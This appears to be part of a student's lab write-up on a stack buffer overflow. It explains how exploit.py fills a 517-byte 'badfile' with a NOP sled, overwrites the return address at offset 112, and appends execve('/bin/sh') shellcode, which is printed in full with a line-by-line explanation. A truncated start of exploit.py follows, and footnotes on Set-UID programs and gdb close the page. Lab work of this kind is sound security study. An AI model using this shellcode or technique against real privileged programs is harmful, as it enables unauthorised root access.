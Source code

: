 To generate the "<code>badfile</code>" using <code>exploit.py</code>, an array of size $517$ bytes is created and filled with <code>0x90</code> (the <code>NOP</code> instruction). Since <code>gdb</code> may push some additional data onto the stack at the beginning, causing the stack frame to be allocated deeper than it would be when the program executes directly, the first address that we can jump to may be higher than <code>$ebp + 8</code>. Here I choose <code>$ebp + 120</code>. The return address field starts from offset $112$ and ends at offset $116$ (not including $116$), i.e., <code>content[112:116]</code>. The x86 architecture uses the little-endian order, so in Python, when putting a $4$-byte address into the memory, <code>byteorder='little'</code> is used to specify the byte order.

At the end of the "<code>badfile</code>", a bunch of shellcode is included, the aim of which is to use the <code>execve()</code> system call to run <code>/bin/sh</code>. The corresponding program is presented in [Task 1](#task-1-getting-familiar-with-shellcode). Registers <code>%eax</code>, <code>%ebx</code>, <code>%ecx</code>, <code>%edx</code> should be configured correctly. A system call is executed using the instruction <code>int $0x80</code>.

```yaml
"\x31\xc0"      # xorl  %eax, %eax
"\x50"          # pushl %eax
"\x68""//sh"    # pushl $0x68732f2f
"\x68""/bin"    # pushl $0x6e69622f
"\x89\xe3"      # movl  %esp, %ebx
"\x50"          # pushl %eax
"\x53"          # pushl %ebx
"\x89\xe1"      # movl  %esp, %ecx
"\x99"          # cdq
"\xb0\x0b"      # movb  $0x0b, %al
"\xcd\x80"      # int   $0x80
```

- Line 1: Using XOR operation on <code>%eax</code> will set <code>%eax</code> to zero without introducing a zero in the code.
- Line 2: Push a zero onto the stack, which marks the end of the "<code>/bin/sh</code>" string.
- Line 3: Push "<code>//sh</code>" onto the stack (double slash, treated by the system call as the same as the single slash, is used because $4$ bytes are needed for instruction).
- Line 4: Push "<code>/bin</code>" onto the stack. The stack pointer <code>%esp</code> now points to the beginning of the string.
- Line 5: Move <code>%esp</code> to <code>%ebx</code>.
- Line 6: Construct the second item of the <code>name</code> array.
- Line 7: Form the first entry of the <code>name</code> array.
- Line 8: Save the value of <code>%esp</code> to <code>%ecx</code>. Now the <code>ecx</code> register contains the address of the <code>name</code> array.
- Line 9: Basically, the instruction copies the sign bit of the value in <code>%eax</code> into every bit position in <code>%edx</code>, sets <code>%edx</code> to zero.
- Line 10: Save the system call number ($11$ for <code>execve()</code>) in the <code>eax</code> register (<code>%al</code> represents the lower $8$ bits of the <code>eax</code> register, the higher bits are still zero).
- Line 11: Executes the system call. <code>int</code> means interrupt, which transfers the program flow to the interrupt handler.

The modified <code>exploit.py</code> program is listed below:

```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0"
  "\x50"
  "\x68""//sh"
  "\x68""/bin"
  "\x89\xe3"
  "\x50"
  "\x53"
  "\x89\xe1"
```

[^1]: From Daniel P. Bovet and Marco Cesati, *Understanding the Linux Kernel, Third Edition*, O'Reilly, 2006.
[^2]: A privileged program is one that can give users extra privileges beyond that are already assigned to them. A Set-Root-UID program is a privileged program because it allows users to gain the root privilege during the execution of the programs. For Set-UID programs in UNIX and UNIX-like operating systems, which stands for **set user ID on execution**, the effective <code>uid</code> is the owner of the program, while the real <code>uid</code> is the user of the program. Windows does not have the notion of Set-UID. A different mechanism is used for implementing privileged functionality. A developer would write a privileged program as a service and the user sends the command line arguments to the service using Local Procedure Call.
[^3]: Continue to the next source line in the current (innermost) stack frame. This is similar to <code>step</code>, but function calls that appear within the line of code are executed without stopping. Execution stops when control reaches a different line of code at the original stack level that was executing when you gave the <code>next</code> command.